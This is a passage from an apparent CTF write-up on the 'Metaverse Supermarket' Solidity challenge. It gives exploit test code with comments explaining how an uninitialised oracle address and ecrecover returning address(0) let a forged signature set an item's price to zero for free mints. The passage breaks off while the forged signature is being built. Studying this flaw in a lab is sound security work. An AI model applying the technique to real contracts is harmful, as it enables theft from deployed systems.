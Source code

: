 Let's go! Free meals for everyone!!!

## Solution code

Now that we know what we have to do, we can simply write down the solution code and execute it

Here's the code of our custom smart contract

```solidity
contract MetaverseSupermarketTest is EkoBaseTest {
    InflaStore store;

    function preSetupHook() internal override {
        super.preSetupHook();

        /* IMPLEMENT YOUR PRE SETUP */

        // Init the challenge
        factory = new ChallengeMetaverseSupermarketFactory();
        challenges = factory.deploy(player);
        store = InflaStore(challenges[0]);
    }

    function runExploit() internal override {
        // When a new `InflaStore` is created, the contract does not initialize the `oracle` address
        // the `ChallengeMetaverseSupermarketFactory` factory never call the `setOracle` method updating the oracle
        // So `oracle` remain with the default value that is `address(0)`

        // Now if you have followed all my previous CTF blog posts you should already know how ECDSA works
        // Inside the `_validateOraclePrice` function of `InflaStore` (used to validate the oracle price signature)
        // they checks two things
        // 1) the `v` value must be equal to 27 or 28 (checked internally by `_recover` for signature malleability)
        // 2) the `signer` of the message must be equal to the `oracle`
        // The problem is that `ecrecover` (an EVM precompiled function) will not cover all the security checks
        // you should do as a smart contract developer. The only role of that function is to return
        // the return the address from the given signature by calculating a recovery function of ECDSA.
        // Basically, given a signature (v, r, s) and a signed message it returns who has signed it.
        // When the function fails to do that (malformed hash, invalid signature and so on)
        // it will return `address(0)` that should be treated as an error and revert immediately

        // To solve the challenge, we just need to be able to set the oracle price of the Meal
        // to be equal to zero and execute some free mint (well will still pay for gas but still...)

        // Create an Oracle Price using the current block number in order to be able to execute the transaction
        // without reverting (`_validateOraclePrice` reverts if the price is too old)
        // and set the oracle price to zero (free mint yay!)
        OraclePrice memory oraclePrice = OraclePrice({
            blockNumber: block.number,
            price: 0
        });

        // Now we build a signature that just need to pass the `v` test (it can be only 27 and 28)
        // And fail all the `ecrecover` internal test to make it returns `address(0)`
        Signature memory signature = Signature({
```